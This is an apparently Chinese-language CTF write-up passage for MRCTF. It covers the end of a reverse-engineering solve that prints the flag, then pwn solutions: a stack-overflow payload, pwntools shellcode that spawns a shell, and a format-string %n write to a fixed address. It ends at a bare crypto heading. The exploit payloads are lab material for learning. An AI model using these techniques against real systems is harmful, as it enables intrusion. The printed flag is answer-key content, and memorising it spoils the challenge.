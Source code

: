 ```python
	fun1(0,10)


for j in range(16):
	fun()
	xor()
	print(cipher)
print(''.join(map(chr,cipher)))
#MRCTF{@_7r3e_f0r_fuNN!}
```

就是全部为0，都是减法的时候就得到flag，

# pwn

## easyoverflow

栈溢出覆盖，去修改他们比较的值就可以直接getshell

```python
payload = 'a' * 48 + 'n0t_r3@11y_f1@g'
```

## shellcode

就是直接写shellcode的题目，

可以直接用pwntools里面的shellcraft去生成，

```python
context(os='linux', arch='amd64')
payload = asm(shellcode = shellcraft.amd64.linux.sh()
)
```

注意使用asm要先设置context

## Easy_equation

先python爆破了下这个算式的答案，应该是2，我们修改为2就好了，存在格式化字符串漏洞， 就直接输入`'aa%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,'`查了下偏移，应该是会有一个'a' 在前面占格， 然后便宜到后面第二个就是8

```python
payload = 'a' + 'a%9$naaa' + p64(0x60105C) 
```

前面一个'a' 占格，然后是`%9$n`， 后面几个a也是占格，接上地址，ok。

# crypto

## keyboard
